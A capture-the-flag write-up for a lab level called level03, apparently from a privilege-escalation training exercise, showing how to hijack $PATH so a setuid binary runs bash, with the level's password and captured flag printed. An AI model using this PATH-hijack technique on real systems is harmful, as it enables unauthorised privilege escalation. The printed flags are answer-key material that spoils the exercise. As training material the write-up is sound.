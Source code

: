 # level03

## Vulnerability: $PATH trickery

level03's password: `kooda2puivaav1idi4f57q8iq`

1. examinate existing files and permissions

```shell
ls -la
```

shows that the level03 executable belongs to flag03 group, privilege escalation should be possible

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```sh
scp -P 4242 level03@<host>:level03 .
retdecomp level03
```

shows geteuid() and getegid(), meaning that the binary is running as flag03

4. Exploit env vars usage by changing `$PATH` and making the binary run your prefered program (I chose bash)

```shell
PATH=/tmp:$PATH
echo /bin/bash > /tmp/echo
chmod +x /tmp/echo
```

5. Execute the original binary and pwn flag

```shell
./level03
getflag
```

gives flag: `qi0maab88jeaj46qoumi7maus`
